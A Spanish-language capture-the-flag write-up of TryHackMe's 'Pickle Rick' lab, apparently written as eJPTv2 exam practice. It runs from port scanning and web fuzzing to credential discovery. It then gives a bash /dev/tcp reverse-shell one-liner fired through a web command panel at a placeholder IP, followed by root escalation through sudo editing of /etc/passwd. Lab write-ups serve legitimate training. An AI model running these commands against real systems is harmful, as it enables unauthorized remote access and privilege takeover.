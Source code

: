 ```yaml
---
title: Pickle Rick
date: 2024-09-21
categories: [WRITEUPS, PREPARING EJPTv2]
tags: []  # TAG names should always be lowercase
image: /assets/images/ejptv2/ejptV2.png
---
```


En la máquina **Pickle Rick** de **TryHackMe**, encuentro credenciales realizando **Fuzzing** web, y obtengo acceso en un panel de comandos, con la capacidad de ejecutar comandos en la máquina. Entraremos en la máquina y escalaré privilegios por los permisos de **Sudo** del usuario **www-data**.

---

![picture](/assets/images/ejptv2/rick1.png)

Lo primero que realizaré, será un *PING*, para comprobar si tengo conectividad con la máquina, y ya de paso para ver de que sistema operativo se trata.

Veo que tengo conectividad, y que el **ttl=63**, con lo que ya sabemos que estamos ante una máquina **Linux**.

![picture](/assets/images/ejptv2/rick2.png)

A continuación, realizaré será un escaneo de puertos con *Nmap*, para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 10.10.233.129 -n -Pn -v
```

![picture](/assets/images/ejptv2/rick3.png){: w="600" h="300" }

Al comprobar los puertos abiertos, me dirijo al navegador para ver el contenido de la página web corriendo por el puerto **80**.

![picture](/assets/images/ejptv2/rick4.png)

Buscando algún tipo de información comentada en el código fuente de la página, encuentro un nombre de usuario.

![picture](/assets/images/ejptv2/rick5.png)

Realizando **Fuzzing** con **Gobuster**, encuentro las siguientes rutas y archivos.

```bash
gobuster dir -u http://10.10.233.129 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.md -b 404,403
```

![picture](/assets/images/ejptv2/rick6.png)

En el archivo "**robots.txt**", encuentro una palabra en texto claro.

![picture](/assets/images/ejptv2/rick7.png)

Y en el archivo de **login.php** encuentro un panel de login, voy a probar a usar el nombre de usuario encontrado y el texto reciente del archivo "**robots.txt**".

![picture](/assets/images/ejptv2/rick8.png)

Y obtengo resultado.

![picture](/assets/images/ejptv2/rick9.png)

Me llama la atención que haya un panel de comandos, voy a intentar ejecutar un comando para comprobar si me lo ejecuta en la máquina y me muestra el *output* del comando ejecutado.

Ejecutando el comando **whoami**, nos muestra el usuario que está corriendo el servicio Web.

![picture](/assets/images/ejptv2/rick10.png)

A continuación, la idea es obtener una **Reverse Shell**, para poder ejecutar comandos en la máquina local desde una terminal interactiva.

Para ello primero crearemos un **Listener** con **ncat**, por donde recibiré la **Reverse Shell**.

- Listener
	
```bash
nc -lnvp 4444
```

- Código para obtener la **Reverse Shell**.
	
```bash
bash -c "bash -i >& /dev/tcp/'Nuestra Ip'/4444 0>&1"
```

Y una vez ejecutemos, se nos quedará cargando la página, y habremos obtenido la **Shell** interactiva por el **Listener**.

- Ejecución del comando.

    ![picture](/assets/images/ejptv2/rick11.png)

- Shell interactiva

    ![picture](/assets/images/ejptv2/rick12.png)

Realizo un tratamiento de la **TTY**, para poder trabajar mejor.

```bash
script /dev/null -c bash
Ctrl_Z
stty raw -echo;fg
ls
export SHELL=/bin/bash
export TERM=screen
stty rows 51 columns 208
reset
```

En la misma ruta encuentro la primera **flag**.

![picture](/assets/images/ejptv2/rick13.png)

Buscando en la máquina, encuentro el directorio "**rick**" en "**/home**", y dentro encuentro la segunda flag.

![picture](/assets/images/ejptv2/rick14.png)

Y buscando posibles escaladas de privilegios, en búsqueda de la última **flag**, intentando encontrar bits **SUID**, **capabilities**, procesos, contraseñas en archivos, etc.

Me doy cuenta que el usuario **www-data** puede ejecutar **SUDO** sin necesitar contraseña. (*muy extraño*)

![picture](/assets/images/ejptv2/rick15.png)

Para la escalada de privilegios, le quitaré la contraseña al usuario **root**, para ello modificaremos el archivo "**/etc/passwd**".

```bash
sudo nano /etc/passwd
```

- Antes
	
	![picture](/assets/images/ejptv2/rick16.png)

- Después
	
	![picture](/assets/images/ejptv2/rick17.png)

Guardamos, salimos y migramos al usuario **root**.

![picture](/assets/images/ejptv2/rick18.png)

Y encontramos la tercera y última flag.

![picture](/assets/images/ejptv2/rick19.png)